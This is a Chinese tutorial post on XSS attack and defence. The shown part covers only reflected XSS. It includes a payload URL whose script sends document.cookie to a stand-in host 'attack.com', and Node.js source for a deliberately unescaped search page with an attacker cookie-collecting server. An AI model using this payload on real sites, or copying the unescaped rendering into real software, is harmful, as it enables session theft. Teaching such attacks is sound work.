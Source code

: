 ## XSS攻防实战（附JS源码）

乔珂力 [前端瓶子君](javascript:void(0);) *今天*

> 授权转载自：乔珂力 
>
> https://juejin.im/post/6867184627393265677

之前写过两篇文章分别介绍了 Cookie ：https://juejin.im/post/6863377752939036679 和 JSON Web Token：https://juejin.im/post/6854573220457086984，很多网站会在用户登录完毕设置 Cookie 值或者返回一个 Token，这就相当于令牌，只要拿着这张令牌就等同于证明了你是某个用户。如果防御不到位，Cookie 和 Token 很容易被 XSS 攻击窃取到，此时攻击者就可以冒充真实的用户，在网站中为所欲为了。

XSS 的全称叫跨站脚本攻击（Cross Site Scripting），攻击出现的原因一般是因为 Web 程序对用户的输入过滤不足导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

- 反射型
- 存储型
- DOM型

## 反射型 XSS 攻防实战

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心拼接的恶意链接，从而达到攻击的目的。

### 攻击案例

一个常见的场景是用户在某电影网站搜索，假如请求地址是：

```
https://xxx.com/movies?q=功夫熊猫
```

在后台返回的结果页中，会显示用户搜索的电影名：

```
「功夫熊猫」的搜索结果为：xxxxxxxxxxxxxxxxxxxxxxx
```

攻击者拼接了一个极度恶意的链接：

```
https://xxx.com/movies?q=功夫熊猫<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

如果用户点击了这个恶意链接，cookie 立马被盗。下面给出 `Node.js` 后端服务完整源码：

```
const http = require('http')const URL = require('url')// HTML 模板function renderHTML(tpl) {  return `<!DOCTYPE html><html><head><meta charset="UTF-8"/></head><body>${tpl}</body></html>`}// 路由分发器const routes = {  'GET /movies': (req, res) => { // 被攻击网站的电影搜索接口    const tpl = req.query.q      ? `<h3>「${req.query.q}」的搜索结果为：</h3>${Array(30).fill('x')}`      : `请输入搜索的电影`    res.setHeader('Set-Cookie', ['name=keliq', 'age=10'])    res.end(renderHTML(tpl))  },  'GET /cookies': (req, res) => { // 攻击者后台收集cookie的接口    console.log(req.query)    res.end()  },}function onRequest(req, res) {  const { url, method } = req  const { query, pathname } = URL.parse(url, true) // 解析 url  Object.assign(req, { query, path: pathname }) // 并把 query 和 pathname 参数扩展到 req 对象  const route = routes[[method, pathname].join(' ')] // 获取路由处理函数（策略模式）  if (route) return route(req, res)  res.statusCode = 404  res.end('Not Found')}http.createServer(onRequest).listen(3000) // 被攻击的网站http.createServer(onRequest).listen(4000) // 攻击者收集cookie的服务器
```
